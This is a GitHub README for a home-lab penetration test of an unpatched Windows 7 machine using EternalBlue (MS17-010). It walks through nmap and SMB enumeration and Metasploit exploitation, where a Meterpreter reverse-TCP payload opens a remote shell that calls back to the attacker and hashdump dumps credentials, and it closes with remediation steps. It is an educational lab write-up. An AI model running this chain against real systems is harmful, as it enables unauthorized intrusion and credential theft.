









# Windows 7 MS17-010 (EternalBlue) VAPT Lab


Complete Vulnerability Assessment and Penetration Testing (VAPT) engagement against a vulnerable Windows 7 machine in a local, authorized home lab environment. This project demonstrates the full penetration testing lifecycle — reconnaissance, enumeration, vulnerability assessment, exploitation, and post-exploitation — against the MS17-010 (EternalBlue) SMB vulnerability.

> **Disclaimer:** This assessment was performed exclusively in an isolated, host-only virtual lab against a system I own and control. No unauthorized systems were accessed. This project is for educational and portfolio purposes only.

---

## Lab Environment

| Component | Details |
|---|---|
| Attacker Machine | Kali Linux (VirtualBox) |
| Target Machine | Windows 7 (unpatched, vulnerable to MS17-010) |
| Network | Host-Only Adapter (isolated) |
| Tools Used | Nmap, smbclient, enum4linux, Metasploit Framework, Meterpreter |

---

## Vulnerability Summary

| Field | Detail |
|---|---|
| Vulnerability | EternalBlue — SMBv1 Remote Code Execution |
| CVE | CVE-2017-0144 |
| CVSS v3.1 Score | 9.8 (Critical) |
| Affected Protocol | SMBv1 (TCP 445) |
| Metasploit Module | `exploit/windows/smb/ms17_010_eternalblue` |

---

## Methodology

### 1. Nmap Service Scan
Performed a full port and service scan to identify open services and versions on the target.

```bash
nmap -sS -sV -A -T4 -p- <target-ip>
```

**Sample output:**
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds



### 2. SMB Enumeration
Enumerated SMB shares and configuration exposed on port 445.

```bash
nmap -p445 --script smb-os-discovery,smb-enum-shares <target-ip>
```



### 3. SMB Client Access
Connected to SMB shares to inspect accessible resources.

```bash
smbclient -L //<target-ip>/ -N
```



### 4. enum4linux Enumeration
Gathered additional host, share, and user information via enum4linux.

```bash
enum4linux -a <target-ip>
```



### 5. MS17-010 Vulnerability Confirmation
Ran Nmap's SMB vulnerability script to confirm exposure to MS17-010.

```bash
nmap --script smb-vuln-ms17-010 -p445 <target-ip>
```

**Sample output:**
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs: CVE:CVE-2017-0143
|     Risk factor: HIGH



### 6. Metasploit Module Search
Searched Metasploit for the relevant EternalBlue exploit module.

```bash
msfconsole
search ms17-010
```



### 7. Module Options
Selected the exploit module and reviewed/configured required options.

```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
set RHOSTS <target-ip>
set LHOST <attacker-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```



### 8. Running the Exploit
Executed the exploit against the target to gain remote code execution.

```bash
exploit
```



### 9. Meterpreter Session
Obtained a Meterpreter session with SYSTEM-level privileges and confirmed access.

```bash
meterpreter > getuid
meterpreter > sysinfo
meterpreter > hashdump
```



---

## Impact

Successful exploitation resulted in unauthenticated remote code execution with **NT AUTHORITY\SYSTEM** privileges — full administrative control of the target host, including the ability to read/write files, dump credential hashes, and pivot further into the network.

---

## Remediation

- Apply Microsoft Security Bulletin **MS17-010** (patches KB4012212 / KB4012215 and related updates)
- Disable SMBv1 entirely where not required (`Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol`)
- Restrict SMB (port 445) exposure at the network/firewall level
- Implement network segmentation to limit lateral movement from compromised hosts

---

## Skills Demonstrated

- Network reconnaissance and host discovery
- SMB enumeration using Nmap, smbclient, and enum4linux
- Vulnerability identification and CVE/CVSS mapping
- Exploit development workflow using Metasploit Framework
- Post-exploitation and privilege verification with Meterpreter
- Technical documentation and reporting

---
'''
## 📁 Repository Structure

```text
Windows-7-MS17-010-VAPT-Lab/
│
├── README.md
├── LICENSE
│
└── Screenshots/
    ├── 01-nmap-service-scan.png
    ├── 02-smb-enum.png
    ├── 03-smbclient.png
    ├── 04-enum4linux.png
    ├── 05-ms17-vulnerability.png
    ├── 06-metasploit-search.png
    ├── 07-module-options.png
    ├── 08-running-exploit.png
    └── 09-meterpreter-session.png
```
## Author

**Hariharan P**
Aspiring Penetration Tester / SOC Analyst
